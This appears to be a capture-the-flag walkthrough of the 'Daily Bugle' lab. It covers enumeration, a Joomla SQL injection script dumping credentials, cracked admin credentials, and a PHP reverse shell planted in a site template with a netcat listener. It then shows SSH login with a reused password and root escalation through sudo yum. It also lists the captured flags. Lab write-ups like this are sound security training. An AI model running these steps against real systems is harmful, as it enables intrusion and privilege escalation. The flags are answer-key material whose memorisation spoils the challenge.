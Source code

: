 # Daily Bugle(Hard)

### Enum
```bash
rustscan -a {ipaddress}

gobuster -u http://{ipadress} -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-2.3-big.txt
```

## Flags

Hint suggests don't use SqlMap
https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

```bash
python joomblah.py http://{ipaddress}

Dumps Super User jonah and Hashed password(Blowfish indicated by $2$)
Upload hash to hashes.net or crack locally
```
### Misc Thoughts
```
Tried to upload a ELF executable meterpreter shell file to improve the stability, however the stageless payload did not properly handshake.

```
### User Flag
Loginto http://{ipaddress}/administrator with the found creds
jonah:spiderman123

Upload a php payload into the index.php template file. I used the Ivan Sincek php payload on port `9001 `

Start a reverse shell
`nc -lvnp 9001`

Go to http://{ipaddress}/index.php (home page for the daily bugle)
You should now have access through `apache ` user.
Look around the local dir. `configuration.php` - Interesting bit under root?
Following typical CTF/THM rooms, try to cat the user flag
```bash
ls /home
cat /home/jjameson/user.txt

No Access though

```bash
ssh jjameson@{ipaddress}
Password: <Root_Pass found in configuration.php>

# cat user.txt - 27a260fe3cba712cfdedb1c86d80442e
```

### Root Shell
```bash
jjameson$ - Sudo -L 

# We see that Yum has no pass root sudo access!
# Check out GTFO Bins https://gtfobins.github.io/gtfobins/yum/

Used Technique (B) to spawn interactive shell by loading custom plugin
#Copy paste to my ssh session and waited for the execution to complete...

sh#

cat /root/root.txt - eec3d53292b1821868266858d7fa6f79
```